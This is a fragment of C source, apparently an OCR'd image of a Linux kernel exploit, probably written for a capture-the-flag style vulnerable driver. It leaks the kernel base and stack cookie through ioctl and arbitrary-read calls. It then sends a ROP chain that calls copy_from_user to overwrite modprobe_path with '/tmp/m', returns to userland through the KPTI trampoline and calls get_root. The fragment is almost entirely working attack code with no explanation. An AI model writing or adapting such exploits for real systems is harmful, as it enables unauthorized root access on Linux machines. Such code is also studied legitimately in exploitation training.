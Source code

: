 ```c
		ioctl(fd,device_ioctl, leak);
		printf("Possible Kernel Base Address: %lx ==> Leak: %lx\n",kbase, leak[1]);
		if (leak[1] != 0){break;}
		kbase += 0x100000;
	}
	printf("Kernel Base: %lx\n",kbase);

	unsigned long cookie = arb_read(arb_read(kbase + 0x2744050) - 0x6db898);
	printf("Kernel Cookie: %lx\n", cookie);

	/*
	for (int i=1; i<=100;i++){
		unsigned long payload[i];
		ssize_t w = write(fd, payload, sizeof(payload));
		printf("Cycle: %d\n",i);
	}
	*/

	unsigned long pop_rdi = kbase + 0x1d675;
	unsigned long pop_rsi = kbase + 0x6ff0c;
	unsigned long pop_rdx = kbase + 0x7baf4a;
	unsigned long copy_from_user = kbase + 0x6e5d00;
	unsigned long modprobe = kbase + 0x208C500;
	unsigned long kpti = kbase + 0x1001126;

	char overwrite[] = "/tmp/m\x00";

	int off = 8;
	unsigned long payload[64];
	payload[off++] = cookie;
	payload[off++] = 0x0;
	payload[off++] = pop_rdi;
	payload[off++] = modprobe;
	payload[off++] = pop_rsi;
	payload[off++] = (unsigned long) overwrite;
	payload[off++] = pop_rdx;
	payload[off++] = strlen(overwrite) + 1;
	payload[off++] = copy_from_user;
	payload[off++] = kpti;
	payload[off++] = 0x0; // pop rax
	payload[off++] = 0x0; // pop rdi
	payload[off++] = (unsigned long)get_root;
	payload[off++] = user_cs;  //        WE RESTORE
	payload[off++] = user_rflags; //     HERE THE
	payload[off++] = user_sp; //         USERLAND
	payload[off++] = user_ss; //         STATE

	write(fd, payload, sizeof(payload));
	return 0;
}
```

